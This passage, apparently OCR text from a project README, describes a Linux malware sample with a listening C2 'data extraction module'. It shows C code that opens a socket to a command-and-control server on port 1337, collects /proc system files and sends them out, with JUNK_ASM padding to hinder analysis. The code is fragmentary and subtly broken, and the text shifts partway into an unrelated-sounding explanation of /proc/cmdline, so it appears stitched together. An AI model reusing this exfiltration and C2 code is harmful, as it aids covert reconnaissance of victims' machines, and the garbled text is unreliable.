 The data extraction module (dext) runs on a well defined port (which can be modified at will) and will start an autonomous thread listening for incoming connections by malware instances. Once connected, the module will simply print on the standard output the content of the incoming connection (which are is the information extracted by the client).

Connect to the C2 server

Read the content of the /proc files

Send the content to our c2 server

Connect to Command&Control

```c

JUNK_ASM;

int c2_fd;

struct hostent * c2_res;
struct sockaddr_in addr;

c2_fd = socket(AF_INET, SOCK_STREAM, 0);
c2_res = gethostbyname("localhost");

addr.sin_family = AF_INET;
memcpy(&addr.sin_addr.s_addr, c2_res->h_addr, c2_res->h_length);
// 0x539 is "1337" in host byte order.
addr.sin_port = htons(0x539);
// Send the content of the files to the C2 server
sys_info(c2_fd);
// Close and die 
close(c2_fd);
Read the content
The /proc files I find most valuable, especially for inherited system discovery, are:

JUNK_ASM;
  
        send(sockfd, "/proc/version");
        send(sockfd, "/proc/cmdline");
        send(sockfd, "/proc/cpuinfo");
        send(sockfd, "/proc/meminfo");
/proc/cmdline

```
This file shows the parameters passed to the kernel at the time it is started.

```c
BOOT_IMAGE=/vmlinuz-3.10.0-1062.el7.x86_64 root=/dev/mapper/centos-root ro crashkernel=auto spectre_v2=retpoline rd.lvm.lv=centos/root rd.lvm.lv=centos/swap rhgb quiet LANG=en_US.UTF-8

```
The value of this information is in how the kernel was booted because any switches or special parameters will be listed here, too. And like all information under /proc, it can be found elsewhere and usually with better formatting, but /proc files are very handy when you can’t remember the command or don’t want to grep for something.
